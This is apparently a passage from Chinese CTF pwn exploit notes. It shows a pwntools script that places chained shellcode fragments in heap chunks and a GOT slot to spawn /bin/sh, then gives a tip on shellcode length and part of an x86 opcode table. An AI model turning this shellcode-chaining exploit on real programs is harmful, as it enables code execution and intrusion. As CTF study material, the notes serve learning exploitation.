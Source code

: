 ```python
if __name__=="__main__":
	add(0,'/bin/sh')
	#debug()
	add(got_index,asm('xor rsi,rsi')+'\x90\x90\xeb\x19')
	#debug()
	add(1,asm('push 0x3b\n pop rax')+'\x90\x90\xeb\x19')
	#debug()
	add(2,asm('xor rdx,rdx')+'\x90\x90\xeb\x19')
	#debug()	
	add(3,asm('syscall')+'\x90'*5)
	dele(0)
	io.interactive()
	io.close()
```

*python里可以用len(asm('push 0x3b\n pop rax')+'\x90\x90\xeb\x19')来看这段shellcode写了多少个字节

jmp命令参考：https://blog.csdn.net/linuxheik/article/details/7654801

>指令集依照机器操作码、汇编助记符和汇编操作数来描述指令，遵循下列约定：
>
>l     reg8: 8位寄存器。
>
>l     reg16: 16位寄存器。
>
>l     mem8: 8位内存数值。
>
>l     mem16: 16位内存数值。
>
>l     immed8: 8位立即数值。
>
>l     immed16: 16位立即数值。
>
>l     immed32: 32位立即数值。
>
>l     segReg: 16位段寄存器。
>
>
>机器操作码
> 汇编助记符和操作数
>
>00
> ADD reg8/mem8,reg8
>
>01
> ADD reg16/mem16,reg16
>
>02
> ADD reg8,reg8/mem8
>
>03
> ADD reg16,reg16/mem16
>
>04
> ADD AL,immed8
>
>05
> ADD AX,immed16
>
>06
> PUSH es
>
>07
> POP es